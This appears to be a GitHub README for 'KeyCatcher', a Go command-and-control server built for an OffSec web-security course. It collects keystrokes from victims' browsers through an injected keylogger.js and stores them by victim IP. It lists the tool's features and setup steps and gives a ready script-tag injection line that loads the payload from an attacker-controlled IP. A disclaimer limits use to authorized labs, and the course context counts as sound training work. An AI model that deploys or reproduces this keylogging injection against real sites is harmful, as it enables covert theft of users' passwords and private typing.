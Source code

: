 # 🎯 KeyCatcher – Terminal-Based Keystroke Exfiltration C2

![Language: Go](https://img.shields.io/badge/language-Go-blue.svg)
![License: MIT](https://img.shields.io/badge/license-MIT-green.svg)
![Platform](https://img.shields.io/badge/platform-Linux%20%7C%20macOS%20%7C%20Windows-lightgrey)

**KeyCatcher** is a powerful terminal-based C2 server built for the *"extra mile"* exercise in OffSec’s **Web-200 (OSWA)** course. It captures keystrokes from compromised webpages and visualizes them in a clean, real-time Terminal UI.


## ✨ Features

- 🚀 **Real-Time Keystroke Capture** : Watch victims type live with zero delay.

- 📊 **Beautiful Terminal UI**  : Built with `tview`, logs are neatly organized by victim IP.

- 💾 **Persistent Storage**  : All keystrokes are stored in `keystrokes.db` (SQLite).

- 📦 **Self-Hosted Payload** : Automatically serves `keylogger.js` for easy deployment.

- 🧠 **Smart Log Parsing**  :  Recognizes and labels special keys like `[BACKSPACE]`, `[ENTER]`, etc.

- ⬇️ **One-Click Data Export**  : Export logs per victim using a single hotkey.

- 💻 **Cross-Platform Support**  : Works on **Linux**, **macOS**, and **Windows**.


## 🛠 How It Works

### 🧩 1. JavaScript Payload (`keylogger.js`)
- Injected into the target page.
- Captures keystrokes using `keydown` events.
- Sends each keypress to the C2 server via `POST /log`.

### 🧠 2. Go C2 Server (`main.go`)
- **HTTP Listener** – Serves the payload and receives data.
- **SQLite Logger** – Stores each keystroke with IP data.
- **TUI Renderer** – Uses `tview` to display victim data and keystrokes in real-time.


## 📋 Requirements

- **Go** version `1.18+` installed.


## 🚀 Installation & Setup

```bash
# 1. Clone the repository
git clone https://github.com/your-username/keycatcher.git

# 2. Change directory
cd keycatcher

# 3. Install dependencies
go mod tidy

# 4. Configure the payload:
Open the keylogger.js file and modify the attackerServer variable to point to the IP address and port of the machine where you will run the KeyCatcher server.
```

# ▶️ Usage

```bash
# 1. Start the KeyCatcher C2 Server:
  go run main.go
# 2. Deploy the Payload:Inject the following script tag into the target webpage. The victim's browser will fetch and execute the payload from your C2 server.
  <script src="http://192.168.1.110:80/keylogger.js"></script>
# 3. Monitor the TUI:
    a. As victims visit the infected page and start typing, their IP addresses will appear in the "Victims" list on the left.
    b. Use the Up/Down arrow keys to select a victim.
    c. The "Keystrokes" pane on the right will display their reconstructed typing in real-time.
    d. Press Ctrl+E to export all captured logs to exfiltrated_data.log.
    e. Press Ctrl+C to quit the application.
```

⚠️ Disclaimer

This tool is intended for educational purposes and for use in authorized security testing scenarios only, such as the OffSec labs. Unauthorized use of this tool to capture keystrokes from individuals without their explicit consent is illegal and unethical. The author is not responsible for any misuse or damage caused by this program.

    

    
